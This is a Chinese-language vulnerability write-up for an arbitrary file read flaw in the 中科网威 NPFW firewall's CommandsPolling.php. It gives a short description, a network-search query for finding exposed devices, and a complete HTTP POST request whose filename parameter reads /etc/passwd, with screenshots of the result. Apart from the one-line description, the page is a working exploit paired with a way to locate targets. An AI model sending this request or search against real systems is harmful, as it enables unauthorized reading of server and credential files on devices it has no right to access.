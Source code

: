 # 中科网威 NPFW防火墙 CommandsPolling.php 任意文件读取漏洞

## 漏洞描述

中科网威 NPFW防火墙 存在任意文件读取漏洞，由于代码过滤不足，可读取服务器任意文件

## 漏洞影响

<a-checkbox checked>中科网威 NPFW防火墙 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"中科网威" && "/direct"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628698968275-7026aca2-33d4-4faa-9352-5a2f9bab7675.png)

发送请求包

```php
POST /direct/polling/CommandsPolling.php HTTP/1.1
Host: 
Cookie: PHPSESSID=014d2705856e1df139772db42ccbaf9f
Content-Length: 47
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

command=ping&filename=%2Fetc%2Fpasswd&cmdParam=
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628699095412-3ee37eb5-54ed-4408-a13e-71159fc36610.png)